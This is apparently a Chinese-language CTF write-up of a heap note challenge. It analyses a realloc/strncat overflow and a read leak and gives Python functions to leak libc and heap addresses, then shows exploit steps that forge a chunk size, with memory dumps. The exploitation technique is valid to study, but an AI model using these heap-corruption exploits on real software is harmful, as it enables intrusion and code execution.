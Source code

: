 
## checksec

```Assembly
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

## struct

```C
struct struc_note
{
  int64 flg_edit;
  int64 length;
  int64 next_addr;
  int64 befor_addr;
  int64 content_addr;
};

typedef struc_note note_struct;
typedef note_struct * note_ptr;
```
## vuln
1. read有地址泄露
2. realloc和strncat结合可以构成溢出


### realloc

```
The realloc() function changes the size of the memory block pointed to by ptr to size bytes.  The contents will  be  unchanged  in  the
range  from the start of the region up to the minimum of the old and new sizes.  If the new size is larger than the old size, the added
memory will not be initialized.  If ptr is NULL, then the call is equivalent to malloc(size), for all values of size; if size is  equal
to  zero,  and ptr is not NULL, then the call is equivalent to free(ptr).  Unless ptr is NULL, it must have been returned by an earlier
call to malloc(), calloc() or realloc().  If the area pointed to was moved, a free(ptr) is done.
```
不是太懂最后一句的moved什么意思

### strncat
man手册给了示例代码
```C
char *
strncat(char *dest, const char *src, size_t n)
{
    size_t dest_len = strlen(dest);
    size_t i;

    for (i = 0 ; i < n && src[i] != '\0' ; i++)
        dest[dest_len + i] = src[i];
    dest[dest_len + i] = '\0';

    return dest;
}
```
可以看到，对于目的缓冲区，用的是strlne函数来算结尾


## leak
泄露很简单
```C
for ( i = 0; i < n; ++i )
{
  if ( read(0, &c, 1uLL) <= 0 )
    break;
  a[i] = c;
  if ( a[i] == '\n' )
    break;
}
```
利用read_buf存在泄露

### libc

利用smallbin
```Python
def s_leak():
    libc_base_addr = 0
    add_note(0xf8, 'l'*0xf0+'\n')
    add_note(0xf8, 'k'*0xf0+'\n')
    delete_note(1)
    payload = 'e'*0x07+'\n'
    add_note(0xf8, payload)
    list_note()
    io.recvuntil(payload)
    data = io.recvuntil('\n')[:-1]
    libc_base_addr = u64(data.ljust(0x08, chr(0))) - smlbin_area_off
    delete_note(1)
    delete_note(1)
    return libc_base_addr
```

### heap
利用地址未清零
```Python
def lk_heap():
    heap_addr = 0
    payload = 'c'*0x0F+'\n'
    add_note(0x20, payload)
    list_note()
    io.recvuntil(payload)
    data = io.recvuntil('\n')[:-1]
    heap_addr = u64(data.ljust(0x08, chr(0))) - 0x10
    delete_note(1)
    return heap_addr
```


## exp

```Python
add_note(0x10, 'v' * 0x10)
add_note(0x18, 'a' * 0x18)      # 8
add_note(0x100, 'f' * 0x100)    # 9
add_note(0x20, '\x01' * 0x20)   # 10
delete_note(9)
add_note(0x30, '/bin/sh\x00\n')
```
把0x100大小的smallbin删除，再去掉其中一部分，这样就有0xd0大小的smallbin
```Assembly
000055A4C70EC770  ...              00000000000000D1
000055A4C70EC780         fd              bk
000055A4C70EC790  6161616161616161 6666666666666666
000055A4C70EC7A0  6666666666666666 6666666666666666
000055A4C70EC7B0  6666666666666666 6666666666666666
000055A4C70EC7C0  6666666666666666 6666666666666666
000055A4C70EC7D0  6666666666666666 6666666666666666
000055A4C70EC7E0  6666666666666666 6666666666666666
000055A4C70EC7F0  6666666666666666 6666666666666666
000055A4C70EC800  6666666666666666 6666666666666666
000055A4C70EC810  6666666666666666 6666666666666666
000055A4C70EC820  6666666666666666 6666666666666666
000055A4C70EC830  6666666666666666 6666666666666666
000055A4C70EC840  0000000000000000
```

然后只要expand一个大小大概为0xD0的块<br>
realloc就会返回000055A4C70EC780<br>
> 这里因为expand的块的后面的块已经被分配了，而原来的size又比realloc小，所以realloc会去找空的smallbin，这里就找到了realloc就会返回000055A4C70EC780

### 修改指针?????
尝试修改下一个块的指针会发现，由于有个flg_edit，即使能够修改后面的content的指针，也无法对其地址进行修改。


### size exp
可以修改一下块的大小
```Python
fake_scc = chr(1) * (0x7) + p64(0xd1)[:3] + '\n'
expand_note(8, 0xb0, fake_scc)
```

```Assembly
000055A4C70EC840  01010101010101D0 00000000000000d1
000055A4C70EC850  0000000000000000 0000000000000020         <-----note
000055A4C70EC860  000055A4C70EC710 000055A4C70EC6C0
000055A4C70EC870  000055A4C70EC880 0000000000000031
000055A4C70EC880  0101010101010101 0101010101010101         <-----content10
000055A4C70EC890  0101010101010101 0101010101010101
000055A4C70EC8A0  0000000000000000 0000000000020761
```
这样，只要free_note，这样就会得到一些空间。<br>
再free之前，再这个块的后面add个note11，释放，再malloc，就足够控制note11了
